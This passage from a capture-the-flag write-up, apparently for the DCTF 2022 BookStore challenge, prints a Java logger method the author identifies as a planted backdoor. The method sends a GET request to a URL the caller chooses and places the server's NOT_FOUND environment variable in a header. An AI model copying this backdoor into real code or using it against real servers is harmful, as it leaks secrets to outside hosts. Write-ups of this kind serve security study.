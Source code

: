   <img src="https://github.com/Endeavxor/CTF-Writeups/blob/f2793b53c31619cc39fa68ee12a67e485eda26a2/2022/DCTF_22/BookStore/img/afterlogin.PNG" />
</p>


Nothing interesting at first sight. From the description of the challenge it seems that the dev has left a backdoor in the code and indeed one function is suspicious in the logging system :

```java

// Logger.java line 80

private void downloadFile(String url) {
    try {
        String inputLine;
        URL link = new URL(url);
        link.toURI();
        HttpURLConnection conn = (HttpURLConnection) link.openConnection();
        conn.setRequestMethod("GET");
        conn.setRequestProperty("not-found", System.getenv("NOT_FOUND"));
        conn.setConnectTimeout(200);
        conn.setReadTimeout(200);
        int status = conn.getResponseCode();
        if (status != 200) {
            return;
        }
        BufferedReader in = new BufferedReader(new InputStreamReader(conn.getInputStream()));
        StringBuffer content = new StringBuffer();
        while ((inputLine = in .readLine()) != null) {
            content.append(inputLine);
        } in .close();
        conn.disconnect();
    } catch (Exception e) {
        return;
    }
}
```